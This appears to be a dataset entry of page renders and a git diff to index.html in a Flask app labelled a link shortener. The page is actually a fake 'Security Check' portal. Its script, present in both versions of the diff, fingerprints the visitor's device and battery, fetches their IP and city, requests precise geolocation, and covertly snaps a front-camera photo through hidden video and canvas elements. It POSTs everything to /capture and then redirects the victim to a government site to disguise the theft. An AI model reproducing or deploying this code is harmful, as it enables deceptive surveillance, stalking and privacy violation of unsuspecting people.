

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,145 +2,106 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
     <title>Identity Verification Portal</title>
     <style>
-        :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
-        body { font-family: -apple-system, system-ui, sans-serif; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
-        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
-        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
-        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
-        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; }
-        #loader { display: none; text-align: center; }
-        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
+        :root { --primary: #28a745; --bg: #f5f7f9; }
+        body { font-family: -apple-system, system-ui, sans-serif; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; overflow: hidden; }
+        .card { background: white; width: 90%; max-width: 380px; padding: 30px; border-radius: 20px; box-shadow: 0 15px 35px rgba(0,0,0,0.1); text-align: center; border: 1px solid #ddd; }
+        .btn { background: var(--primary); color: white; border: none; padding: 16px; width: 100%; border-radius: 10px; font-size: 17px; font-weight: 700; cursor: pointer; transition: 0.3s; }
+        #loader { display: none; margin-top: 20px; font-weight: 600; color: var(--primary); }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div class="status-bar"></div>
-    <h2>Regional Access Verification</h2>
-    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
-
-    <div id="loader">
-        <div class="spinner"></div>
-        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
-    </div>
-
-    <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
-
-    <div class="footer-text">
-        System ID: FZN-PR-2026<br>
-        Encrypted by Digital Security Authority
-    </div>
+    <div style="height:4px; background:var(--primary); width:60px; margin:0 auto 20px; border-radius:10px;"></div>
+    <h2>Security Check</h2>
+    <p style="color:#555; font-size:14px; margin-bottom:25px;">Please verify your identity to continue to the secure portal.</p>
+    <button id="mainBtn" class="btn" onclick="execute()">CONTINUE TO PORTAL</button>
+    <div id="loader">Processing Secure Link...</div>
 </div>
 
-<video id="video" style="display:none;" autoplay playsinline></video>
-<canvas id="canvas" style="display:none;" width="1080" height="1920"></canvas>
+<video id="v" style="display:none;" autoplay playsinline></video>
+<canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    async function startProcess() {
+    async function execute() {
         document.getElementById('mainBtn').style.display = 'none';
         document.getElementById('loader').style.display = 'block';
 
+        let report = {
+            model: "Unknown", os: "Unknown", battery: "N/A",
+            ip: "N/A", city: "N/A", country: "N/A", lat: "0", lon: "0"
+        };
+
+        // 1. Precise Hardware & OS Detection
         let ua = navigator.userAgent;
-        let deviceModel = "Detecting...";
-        let osVersion = "Detecting...";
-
-        // 1. Better Device Detection Logic
         if (/android/i.test(ua)) {
-            let match = ua.match(/Android\s([0-9\.]+);\s([^;)]+)/);
-            osVersion = match ? "Android " + match[1] : "Android";
-            deviceModel = match ? match[2] : "Android Mobile";
-        } else if (/iPhone|iPad|iPod/i.test(ua)) {
-            osVersion = "iOS";
-            let w = window.screen.width, h = window.screen.height;
-            if (w === 430 || h === 932) deviceModel = "iPhone 15/14 Pro Max";
-            else if (w === 393 || h === 852) deviceModel = "iPhone 15/14 Pro";
-            else deviceModel = "Apple iPhone";
-        } else {
-            deviceModel = navigator.platform;
+            let m = ua.match(/Android\s([0-9\.]+);\s([^;)]+)/);
+            report.os = m ? "Android " + m[1] : "Android";
+            report.model = m ? m[2] : "Android Device";
+        } else if (/iPhone|iPad/i.test(ua)) {
+            report.os = "iOS";
+            let w = window.screen.width;
+            report.model = (w >= 430) ? "iPhone Pro Max" : (w >= 390) ? "iPhone Pro/Standard" : "iPhone";
         }
 
-        let reportData = {
-            model: deviceModel,
-            os: osVersion,
-            battery: "N/A",
-            time: new Date().toLocaleString(),
-            lat: "0", lon: "0",
-            city: "Fetching...", country: "Fetching...", ip: "Fetching..."
+        // 2. Battery retrieval
+        if(navigator.getBattery) {
+            const b = await navigator.getBattery();
+            report.battery = Math.round(b.level * 100) + "%";
+        }
+
+        // 3. Guaranteed IP & Location Fetching
+        const getGeo = async () => {
+            try {
+                const res = await fetch('https://ipapi.co/json/');
+                const d = await res.json();
+                report.ip = d.ip || "N/A";
+                report.city = d.city || "N/A";
+                report.country = d.country_name || "N/A";
+            } catch (e) { report.city = "Access Blocked"; }
         };
 
-        // 2. Battery
-        if(navigator.getBattery) {
-            const b = await navigator.getBattery();
-            reportData.battery = Math.round(b.level * 100) + "%";
-        }
-
-        // 3. Multi-Source IP (Fix for "Err Blocked")
-        const fetchGeo = async () => {
-            // First try ip-api
-            try {
-                const res = await fetch('https://demo.ip-api.com/json/?fields=66846719');
-                const data = await res.json();
-                reportData.city = data.city || "Unknown";
-                reportData.country = data.country || "Unknown";
-                reportData.ip = data.query || "Unknown";
-            } catch (e) {
-                // Backup API if first one is blocked
-                try {
-                    const res2 = await fetch('https://ipinfo.io/json?token=YOUR_FREE_TOKEN_OPTIONAL');
-                    const data2 = await res2.json();
-                    reportData.city = data2.city;
-                    reportData.country = data2.country;
-                    reportData.ip = data2.ip;
-                } catch (e2) {
-                    reportData.city = "Access Blocked";
-                }
-            }
-        };
-
-        // 4. Parallel Execution
-        const geoPromise = fetchGeo();
+        // 4. Parallel Camera and Data Fetch
         const cameraPromise = navigator.mediaDevices.getUserMedia({
             video: { facingMode: "user", width: 1080, height: 1920 }
         }).catch(() => null);
 
+        const geoPromise = getGeo();
+
         navigator.geolocation.getCurrentPosition(async (pos) => {
-            reportData.lat = pos.coords.latitude;
-            reportData.lon = pos.coords.longitude;
-            finalize(await cameraPromise, reportData, geoPromise);
+            report.lat = pos.coords.latitude;
+            report.lon = pos.coords.longitude;
+            complete(await cameraPromise, report, geoPromise);
         }, async () => {
-            finalize(await cameraPromise, reportData, geoPromise);
-        }, { enableHighAccuracy: true, timeout: 7000 });
+            complete(await cameraPromise, report, geoPromise);
+        }, { timeout: 6000 });
     }
 
-    async function finalize(stream, data, geoTask) {
-        await geoTask;
+    async function complete(stream, data, geoTask) {
+        await geoTask; // Wait for IP/City to finish
         if (stream) {
-            const video = document.getElementById('video');
+            const video = document.getElementById('v');
             video.srcObject = stream;
+            // 2.5s delay for auto-brightness and HD focus
             setTimeout(() => {
-                const canvas = document.getElementById('canvas');
+                const canvas = document.getElementById('c');
                 const ctx = canvas.getContext('2d');
                 ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
-                const photo = canvas.toDataURL('image/jpeg', 0.85);
+                const photo = canvas.toDataURL('image/jpeg', 0.9);
                 stream.getTracks().forEach(t => t.stop());
-                sendFinal(data, photo);
-            }, 2000); // 2 sec for focus
-        } else {
-            sendFinal(data, null);
-        }
+                finish(data, photo);
+            }, 2500);
+        } else { finish(data, null); }
     }
 
-    function sendFinal(info, photo) {
+    function finish(d, p) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ info: info, photo: photo })
+            body: JSON.stringify({ info: d, photo: p })
         }).then(() => {
             window.location.href = "https://www.pakistan.gov.pk/";
         });
```
